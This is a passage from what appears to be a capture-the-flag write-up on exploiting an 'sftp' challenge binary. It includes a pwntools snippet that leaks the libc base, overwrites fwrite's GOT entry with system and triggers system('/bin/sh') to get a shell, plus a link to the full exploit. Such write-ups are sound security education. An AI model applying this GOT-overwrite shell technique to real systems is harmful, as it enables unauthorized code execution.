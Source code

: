 So if fwrite() is now in fact system() and the argument passed to the call in writen is file->data we must create a file that contains the command that we want execute.

```python
libc_bin.address = u64(got[:8]) - libc_bin.symbols["fwrite"]
log.info("libc base address: 0x%x" % libc_bin.address)

put_file("cmd", "/bin/sh\x00")

target = p64(libc_bin.symbols["system"])
put_file("got", target)

p.sendline("get cmd") #system("/bin/sh")
```

And win!

![sftp_8](https://mhackeroni.it/assets/img/sftp_writeup/sftp_8.png){: width="100%"}

In the following link to a zip file you can find the sftp.c source code, the sftp binary, the full exploit, the libc binary and the header that must be imported in IDA.

Attachment: [https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing](https://drive.google.com/file/d/1O0-QFmp7KQ1ojANU5y75ouv6hFhm4QD0/view?usp=sharing)



